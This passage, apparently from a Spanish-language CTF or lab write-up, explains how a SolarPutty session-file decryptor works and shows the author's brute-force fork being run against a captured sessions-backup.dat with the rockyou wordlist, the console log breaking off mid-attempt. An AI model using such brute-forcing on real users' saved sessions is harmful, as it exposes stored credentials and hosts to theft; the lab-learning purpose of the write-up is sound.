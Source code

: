     - Si no se proporciona una contraseña, usa **ProtectedData.Unprotect** para desencriptar el archivo usando **DPAPI** (exclusivo de Windows). Esto indica que el archivo de sesión está cifrado utilizando la identidad del usuario local.

### 4. **Procesamiento del Archivo Desencriptado**

- El archivo desencriptado, que está en formato JSON, es leído y formateado para una mejor legibilidad usando la biblioteca **Newtonsoft.Json**.
- Luego, el archivo es guardado en el escritorio del usuario con el nombre `SolarPutty_sessions_decrypted.txt`.

He modificado el PoC y he creado una versión (fork) para admitir la fuerza bruta.
[Aquí tenéis el PoC modificado](https://github.com/pointedsec/SolarPuttyDecrypt-BruteForce)

Simplemente podemos descargarlo, compilarlo y utilizarlo.
```console
C:\Users\pc\Desktop\instant\SolarPuttyDecrypt\SolarPuttyDecrypt\bin\Release>.\SolarPuttyDecrypt.exe C:\Users\pc\Desktop\instant\SolarPuttyDecrypt\SolarPuttyDecrypt\bin\Release\sessions-backup.dat C:\Users\pc\Desktop\instant\SolarPuttyDecrypt\SolarPuttyDecrypt\bin\Release\rockyou.txt
-----------------------------------------------------
SolarPutty's Sessions Decrypter by VoidSec (Brute-Force by pointedsec)
-----------------------------------------------------
Trying password: 123456
Error de desencriptación: Datos incorrectos.
Trying password: 12345
Error de desencriptación: Datos incorrectos.
Trying password: 123456789
Error de desencriptación: Datos incorrectos.
Trying password: password
Error de desencriptación: Datos incorrectos.
Trying password: iloveyou
Error de desencriptación: Datos incorrectos.
Trying password: princess
Error de desencriptación: Datos incorrectos.
Trying password: 1234567
Error de desencriptación: Datos incorrectos.
Trying password: rockyou
Error de desencriptación: Datos incorrectos.
Trying password: 12345678
Error de desencriptación: Datos incorrectos.
Trying password: abc123
Error de desencriptación: Datos incorrectos.
Trying password: nicole
Error de desencriptación: Datos incorrectos.
Trying password: daniel
Error de desencriptación: Datos incorrectos.
Trying password: babygirl
Error de desencriptación: Datos incorrectos.
Trying password: monkey
Error de desencriptación: Datos incorrectos.
Trying password: lovely
Error de desencriptación: Datos incorrectos.
Trying password: jessica
Error de desencriptación: Datos incorrectos.
Trying password: 654321
Error de desencriptación: Datos incorrectos.
Trying password: michael
Error de desencriptación: Datos incorrectos.
Trying password: ashley
Error de desencriptación: Datos incorrectos.
Trying password: qwerty
Error de desencriptación: Datos incorrectos.
Trying password: 111111
Error de desencriptación: Datos incorrectos.
Trying password: iloveu
```